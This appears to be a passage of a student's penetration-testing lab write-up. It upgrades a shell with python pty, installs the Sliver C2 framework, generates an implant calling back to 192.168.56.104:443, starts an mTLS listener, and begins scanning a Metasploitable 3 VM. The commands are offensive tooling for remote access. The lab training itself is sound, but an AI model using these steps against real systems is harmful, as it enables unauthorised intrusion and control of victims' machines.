 ```
```python -c 'import pty; pty.spawn("/bin/bash")'```

spawning tty shell with python and running 

```export TERM=xterm```


![alt text](imagesh2/image-36.png)

![](imagesh2/image-37.png)

Seems to work!


<a name="n-optional-advanced-use-a-competing-tool"></a>
## 🛠️ N) Optional, Advanced: Try another attack tool or hostile remote access tool, such as Sliver.

installing sliver:
```
sudo apt-get install sliver 
```
running sliver:
```
sudo sliver-server
```
next we need to compile payload for the victim:
```
generate --os linux --arch x86 --format elf --mtls 192.168.56.104:443
```

![alt text](imagesh2/image-38.png)

running mtls listener on port 443 with

```
mtls -l 443
```
and confirm its running with ```jobs``` command
![](imagesh2/image-39.png)

Generated payloads, uploaded and executed them with meterpreter, but it just would not connect to my server. Decided to move on to next task and solve this later if i have the time.

![alt text](imagesh2/image-40.png)


<a name="o-optional-advanced-install-and-exploit-metasploitable-3"></a>
## 🖥️ O) Optional, Advanced: Install and Exploit Metasploitable 3

Downloaded metasploit3 ubuntu version with vagrant as per guide here (https://portal.cloud.hashicorp.com/vagrant/discover/noordev/metasploitable3)

After awhile its downloaded, i setup network same was as on metasploit2, host only adapter and start it

![alt text](imagesh2/image-41.png)

back to my kali vm, i can see theres a new ip address, 192.168.56.105

![](imagesh2/image-42.png)

running the db_nmap -A and then filter services to show me the new target to see what we have to play with

![alt text](imagesh2/image-43.png)
```